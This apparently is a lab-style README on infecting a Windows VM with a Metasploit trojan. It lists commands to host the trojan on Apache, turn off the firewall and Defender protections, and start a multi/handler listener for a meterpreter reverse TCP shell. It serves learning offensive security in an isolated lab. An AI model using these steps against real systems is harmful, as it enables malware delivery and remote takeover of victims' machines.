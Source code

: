 <h2></h2>

<h2>Sharing the Payload over the internet</h2>

1. Create a web sharable and executable folder named "share"
    - In the Metasploit Framework application type in:
      - sudo mkdir /var/www/html/share
        - This creates a folder
      - sudo cp ~/Desktop/[createdTrojan] /var/www/html/share
        - This copies the Trojan to the folder we just created
      - sudo service apache2 start
        - This starts the Apache web server on the Kali Linux
       
<p align="left">
Creating the Sharable/executable Folder <br/>
<img src="https://i.imgur.com/p1NxN7z.png" height="35%" width="35%" alt=""/>
<br />

2. Can check if the Apache Web server is running or not by
    - Type in Firefox browser: localhost/share

<p align="left">
Firefox: Localhost/share/ <br/>
<img src="https://i.imgur.com/nHyi8Dz.png" height="35%" width="35%" alt=""/>
<br />

<h2></h2>

<h2>Prep Windows VM to be Hackable</h2>

- Check if the Setting of the VM to enable USB Controller
- Run CMD.exe as Administrator and turn off Virus & Threat Protection:
  - In cmd: >netsh advfirewall set allprofiles state off
  - In Virus & Threat Protection > Manage settings > Turn off Real-time protection, cloud-delivered protection, Automatic sample submission, and Temper Protection
 
<p align="left">
Prepping Windows VM <br/>
<img src="https://i.imgur.com/1LPZ7b7.png" height="35%" width="35%" alt=""/>
<br />


<h2></h2>

<h2>Infect Windows VM with the Trojan Virus</h2>

1. Setup on Kali Linux to listen for the infected PC:
    - on the Kali Linux Metasploit Framework type:
      - >use exploit/multi/handler
        - Tool inside Metasploit allows us to listen for or handle different virus payloads calling back into Kali Linux
      - >set PAYLOAD windows/meterpreter/reverse_tcp
        - set the payload to match Windows reverse TCP
      - >show options
        - see what option we have here; need to set a Localhost [IP for Kali Linux]
      - >set LHOST 10.0.9.4
        - set our localhost to be 10.0.9.4
      - >exploit
        - run the exploit
       